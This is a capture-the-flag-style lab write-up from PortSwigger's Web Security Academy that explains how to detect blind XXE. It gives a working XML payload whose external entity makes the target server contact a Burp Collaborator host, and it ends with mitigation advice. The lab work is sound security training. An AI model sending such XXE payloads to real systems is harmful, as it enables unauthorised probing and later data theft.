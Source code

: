 
### 📁 `README.md` — Blind XXE via OOB Interaction


# 🌐 Blind XXE via Out-of-Band (OOB) Interaction

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** Blind XML External Entity (XXE)  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Use Blind XXE to trigger an OOB DNS/HTTP request to Burp Collaborator and confirm vulnerability.

---

## 🔍 Lab Summary

This lab simulates a real-world **blind XXE** scenario, where:
- The application parses XML.
- There’s **no output** in the HTTP response.
- But the **server reacts** to external entity resolution.

The goal is to trigger a **DNS or HTTP interaction** with a **Burp Collaborator** subdomain to prove that the XML parser is vulnerable.

---

## ⚙️ Exploitation Steps

### 1. 🕵️ Intercept the Request

Navigate to any product page and click **Check stock**.  
In **Burp Suite**, intercept the POST request, which looks like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 2. 🧨 Inject the External Entity (Blind OOB XXE)

Replace the payload with:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://YOUR-COLLABORATOR-SUBDOMAIN">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

> 💡 Tip: In Burp Suite Pro, right-click → "Insert Collaborator payload" to automatically insert a valid Burp subdomain.

---

### 3. 🔍 Monitor the Interaction

Go to the **"Burp Collaborator"** tab and click **"Poll now"**.
You should see **DNS and HTTP interactions** from the vulnerable server — confirming it resolved your external entity.
![XXE](https://github.com/Kabilala/xxe/blob/main/lab3/lab3.png)
---

## 🧠 Technical Breakdown

| Component                                   | Purpose                                              |
| ------------------------------------------- | ---------------------------------------------------- |
| `<!DOCTYPE>`                                | Declares a DTD                                       |
| `<!ENTITY xxe SYSTEM "http://[subdomain]">` | Defines an external entity that triggers a request   |
| `&xxe;`                                     | Injects the entity into the XML body                 |
| OOB                                         | The server reaches out to your Burp Collaborator URL |

---

## 🛡️ Mitigation Techniques

* **Disable DTD processing** in your XML parsers
* **Use secure parsers** (e.g., `defusedxml`, Java’s `SAXParserFactory.setFeature`)
* **Monitor for unexpected outbound traffic**
* Apply **least privilege** for network access

---

## 📚 References

* [📘 PortSwigger XXE Labs](https://portswigger.net/web-security/xxe/blind)
* [🧠 OWASP XXE Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [📖 Burp Suite Collaborator Guide](https://portswigger.net/burp/documentation/collaborator)

---
